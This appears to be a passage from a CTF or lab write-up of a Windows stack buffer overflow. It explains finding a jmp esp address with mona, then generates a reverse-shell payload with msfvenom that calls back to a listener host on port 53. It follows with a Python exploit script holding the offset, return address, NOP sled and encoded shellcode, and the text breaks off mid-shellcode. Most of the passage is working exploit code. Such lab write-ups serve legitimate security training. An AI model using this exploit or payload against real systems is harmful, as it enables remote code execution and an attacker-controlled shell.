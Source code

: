 ![image](https://user-images.githubusercontent.com/83407557/185807204-cbcd40e6-e85c-483e-badb-d0ed49edecbe.png)


# finding jmp esp address

I can now see if there are any jmp esp instructios that will not contain the badchars

`!mona jmp -r esp -cpb "\x00\x0a"`

I find two pointers 

![image](https://user-images.githubusercontent.com/83407557/185808329-e5ef54cd-f969-4b98-a75c-a52d20f380b5.png)


I can either try address

\xc3\x14\x04\x08

or

\xbf\x16\x04\x08


I will try the first one and generate shellcode with msfvenom

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.6.77.38 LPORT=53 EXITFUNC=thread -b "\x00\x0a" -f c > shellcode_53

```

Making the payload with jump esp retn address and a NOP sleed for padding

```python
#!/usr/bin/env python2
# exploit.py

import socket
import sys

# setup the Target's IP and port.
RHOST = "10.10.100.55"
RPORT = 31337

# create a TCP connection (socket)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

# The payload

padding = "\x90" * 16
offset = 146
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
payload = ("\xbb\x17\xbe\x16\xd5\xdb\xc0\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x52\x31\x58\x12\x83\xe8\xfc\x03\x4f\xb0\xf4\x20\x93\x24\x7a"
"\xca\x6b\xb5\x1b\x42\x8e\x84\x1b\x30\xdb\xb7\xab\x32\x89\x3b"
"\x47\x16\x39\xcf\x25\xbf\x4e\x78\x83\x99\x61\x79\xb8\xda\xe0"
"\xf9\xc3\x0e\xc2\xc0\x0b\x43\x03\x04\x71\xae\x51\xdd\xfd\x1d"
"\x45\x6a\x4b\x9e\xee\x20\x5d\xa6\x13\xf0\x5c\x87\x82\x8a\x06"
"\x07\x25\x5e\x33\x0e\x3d\x83\x7e\xd8\xb6\x77\xf4\xdb\x1e\x46"
"\xf5\x70\x5f\x66\x04\x88\x98\x41\xf7\xff\xd0\xb1\x8a\x07\x27"
"\xcb\x50\x8d\xb3\x6b\x12\x35\x1f\x8d\xf7\xa0\xd4\x81\xbc\xa7"
"\xb2\x85\x43\x6b\xc9\xb2\xc8\x8a\x1d\x33\x8a\xa8\xb9\x1f\x48"
"\xd0\x98\xc5\x3f\xed\xfa\xa5\xe0\x4b\x71\x4b\xf4\xe1\xd8\x04"
"\x39\xc8\xe2\xd4\x55\x5b\x91\xe6\xfa\xf7\x3d\x4b\x72\xde\xba"
"\xac\xa9\xa6\x54\x53\x52\xd7\x7d\x90\x06\x87\x15\x31\x27\x4c"
"\xe5\xbe\xf2\xc3\xb5\x10\xad\xa3\x65\xd1\x1d\x4c\x6f\xde\x42"
```